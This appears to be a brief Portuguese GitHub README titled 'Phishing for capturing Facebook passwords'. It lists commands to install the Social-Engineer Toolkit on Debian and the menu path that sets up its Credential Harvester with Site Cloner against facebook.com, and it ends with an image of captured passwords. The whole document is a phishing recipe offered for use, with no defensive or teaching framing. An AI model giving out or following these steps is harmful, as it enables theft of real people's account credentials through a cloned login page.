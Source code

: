 # Phishing para captura de senhas do Facebook

### Ferramentas

- Debian
- setoolkit

### Instalação do Setoolkit no Debian
```bash
git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
cd setoolkit
pip3 install -r requirements.txt
python setup.py
```
<br/>

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")

